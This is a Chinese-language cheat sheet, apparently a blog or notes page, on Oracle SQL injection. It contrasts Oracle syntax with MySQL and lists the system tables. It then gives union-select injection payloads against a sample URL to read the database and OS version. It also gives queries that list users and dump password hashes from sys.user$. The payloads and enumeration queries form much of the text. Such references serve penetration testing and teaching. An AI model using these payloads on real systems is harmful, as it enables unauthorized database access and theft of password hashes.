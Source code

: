 select 必须要指明表名。也可以用 dual 作为表名来对非真实的表进行查询

Oracle 中空字符串''就是null（也就是说oracle只有null，没有空字符)

Oracle使用 || 拼接字符串，MySQL中为或运算

oracle的单引号与mysql一样的，只不过oracle的双引号是用来消除系统关键字的

Oracle中limit应该使用虚表中的rownum字段通过where条件判断

select * from pyy where rownum = 1;
Oracel的单行注释符是--，多行注释符是/**/

Oracle的系统表:

dba_tables : 系统里所有的表的信息，需要DBA权限才能查询
all_tables : 当前用户有权限的表的信息
user_tables: 当前用户名下的表的信息
DBA_ALL_TABLES：DBA 用户所拥有的或有访问权限的对象和表
ALL_ALL_TABLES：某一用户拥有的或有访问权限的对象和表
USER_ALL_TABLES：某一用户所拥有的对象和表
user_tables 的范围最小，all_tables 看到的东西稍多一些，而 dba_tables 的信息最全

DBA_TABLES >= ALL_TABLES >= USER_TABLES

数据库信息
获取数据库版本：

SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT version FROM v$instance;
具体注入的语句：
http://127.0.0.1/oracle?id=99' union select 1,'a',(SELECT banner FROM v$version WHERE banner LIKE 'Oracle%25') from dual -- +
获取操作系统版本：

SELECT banner FROM v$version where banner like 'TNS%';
http://127.0.0.1/oracle?id=99' union select 1,'a',(SELECT banner FROM v$version where banner like 'TNS%25') from dual -- +
获取当前用户权限的所有数据库：

SELECT DISTINCT owner, table_name FROM all_tables;
获取当前数据库：

SELECT global_name FROM global_name;
SELECT name FROM v$database;
SELECT instance_name FROM v$instance;
SELECT SYS.DATABASE_NAME FROM DUAL;
获取用户相关信息：

SELECT user FROM dual;获取当前数据库用户
SELECT username FROM all_users ORDER BY username;列出所有用户
SELECT name FROM sys.user$; — priv;列出所有用户

列出密码哈希:
SELECT name, password, astatus FROM sys.user$ — priv; <= 10g(astatus能够在acct被锁定的状态下给你反馈)
SELECT name,spare4 FROM sys.user$ — priv; 11g

获取数据库所有用户:
SELECT username FROM all_users ORDER BY username;
SELECT name FROM sys.user$; -- priv;
